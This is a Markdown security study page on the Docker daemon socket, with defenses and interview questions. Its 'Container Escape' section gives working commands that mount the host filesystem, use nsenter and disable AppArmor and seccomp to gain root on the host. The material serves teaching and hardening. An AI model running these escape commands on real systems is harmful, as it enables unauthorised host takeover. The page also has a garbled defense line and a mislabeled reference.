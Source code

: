 ```yaml
---
title: Daemon Socket
author: Zheng Jie
---
```


# Daemon Socket Overview

## Main Purpose

Main entry point and persistent process for Docker API on host OS by interfacing with underlying host kernel. UNIX socket is used by default as compared to TCP to prevent remote connection from unknown sources `"hosts": ["unix:///var/run/docker.sock"]`

## Uses Cases

* Proxy configurations if container is behind an HTTP proxy server
* Interacting with other containers
* Logging purposes

## Attack Vectors

### Privilege Escalation via Mount

Different parts of filesystem can be mounted in container with root access because docker socket runs as root. This allows escalation of privileges within the container to root privileges and potentially, enabling attackers access and modity host filesystem.

```sh
-v /:/host
-v /tmp:/host
```

### Container Escape

If container happens to run as privilege or container has improper access control, it is possible to remove all isolation from container and execute commands on actual host system.

```sh
#Search the socket
find / -name docker.sock 2>/dev/null
#It's usually in /run/docker.sock
#List images to use one
docker images
#Run the image mounting the host disk and chroot on it
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash

# Get full access to the host via ns pid and nsenter cli
docker run -it --rm --pid=host --privileged ubuntu bash
nsenter --target 1 --mount --uts --ipc --net --pid -- bash

# Get full privs in container without --privileged
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host ubuntu chroot /host/ bash
```

Access control plugins can also be bypassed:

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/authz-and-authn-docker-access-authorization-plugin#disabling-plugin" %}

## Defenses

### Use SSH

If remote connection is needed, use SSH on `DOCKER_HOST` to ensure only SSH remote connections are permitted and not via TCP due to security reasons. TLS with CA cert can be used as an alternative.

```sh
 export DOCKER_HOST=ssh://docker-user@host1.example.com
 docker info
<prints output of the remote engine>
```

### Ensure Socket is not Mounted

Run `-v /var/run/docker.sock:/var/run/docker.sock` to ensure socket flag is not present within the container. **Do not run** `docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash`.

### Run containers as non-root users

Reduce container user privileges by running as non-root.

```sh
# Runtime example
docker run -d -u 1000 ubuntu sleep infinity
ps aux | grep sleep
> 1000 ... sleep infinity

# Build example
FROM ubuntu:latest
USER 1000
```

Additional information:

{% embed url="https://cloud.google.com/architecture/best-practices-for-operating-containers" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html#rule-1-do-not-expose-the-docker-daemon-socket-even-to-the-containers" %}


## Interview Questions

* What is Docker Socket used for?
* What are the attack vectors using the socket?
* Explain some mitigation methods to prevent socket abuse. (Can list more examples not written here)

## Author

- [Zheng Jie](https://github.com/Bread7) 🍞

## References

1. [Docker - Daemon](https://docs.docker.com/reference/cli/dockerd/#examples)
2. [StackOverflow - Purpose of docker sock file](https://stackoverflow.com/questions/35110146/what-is-the-purpose-of-the-file-docker-sock)
3. [Docker - Use SSH to protect Docker Daemon Socket](https://docs.docker.com/engine/security/protect-access/)
4. [HackTricks- Docker Socket Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/abusing-docker-socket-for-privilege-escalation)
5. [Peter - Docker Security Best Practices](https://dev.to/pbnj/docker-security-best-practices-45ih#docker-engine)
6. [OWASP - Docker Seucrity](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html#rule-1-do-not-expose-the-docker-daemon-socket-even-to-the-containers)
7. [Google - Best Practices for Operating Containers](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html#rule-1-do-not-expose-the-docker-daemon-socket-even-to-the-containers)